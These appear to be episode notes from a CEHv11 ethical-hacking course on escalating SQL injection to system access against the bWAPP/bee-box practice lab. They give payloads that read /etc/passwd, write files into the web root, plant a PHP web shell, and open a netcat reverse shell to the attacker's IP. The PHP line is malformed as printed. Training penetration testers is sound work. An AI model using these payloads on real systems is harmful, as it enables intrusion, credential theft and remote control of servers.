     Filename: eccouncil-ceh31250-v11-15-4-1-sqli-to-system-access.md
    Show Name: CEHv11 (312-50)
    Topic Name: Web Application Hacking: SQL Injection
    Episode Name: SQLi to System Access ================================================================================

SQLi to System Access
Objectives:

-    Utilize SQL Injection to access the local file system of a remote system
-    Leverage SQL Injection to create an interactive connection with a remote system

-    We've seen a lot of what we can do with SQL Injection. Are there any other kinds of things can we accomplish with SQL injection?
#        Lots of dangerous things
#            Local file-system manipulation
-                READ
-                WRITE
-                CODE/COMMAND EXECUTION



#    That does sound dangerous! Can you show use a quick example of reading from the target's local file system?
-        READ from file
-            union all select 1,load_file("/etc/passwd"),3,4,5,6,7 -- -
-                View source for better formatting of output



-    Can we read ANY file we want?
-        Only the files that the SQL user has access to



    You also said we can write, to the local file system. What does that look like?
#        WRITE to file
-            union all select 1,"Test",3,4,5,6,7 into OUTFILE '/var/www/test.txt' -- -
-                You may get permission denied
-                    Find writeable dir
-                        Check links, source, and robots.txt
-                            Trial and error through the listed directories
-                                Found writeable dir: /documents
-                                    CODE/COM EXEC may now be possible :)

#    We can now both READ and WRITE to the Target's local file-system, but how do we leverage this for CODE/COMMAND EXECUTION?
#        CODE EXEC

-            union all select 1,"<?php echo shell_exec($_GET['cmd'];?>)",3,4,5,6,7
-            into OUTFILE '/var/www/bWAPP/documents/x.php'

                Browse to http://bee-box/documents/x.php
                    Success!

    So we were able to add a new page to the website, but what do we do now?
        We listen
            Start a listener on port 4444
                Now browse to your backdoor and execute a command

    http://bee-box/bWAPP/documents/x.php?cmd=nc -nv 10.0.0.169 4444 -e /bin/bash
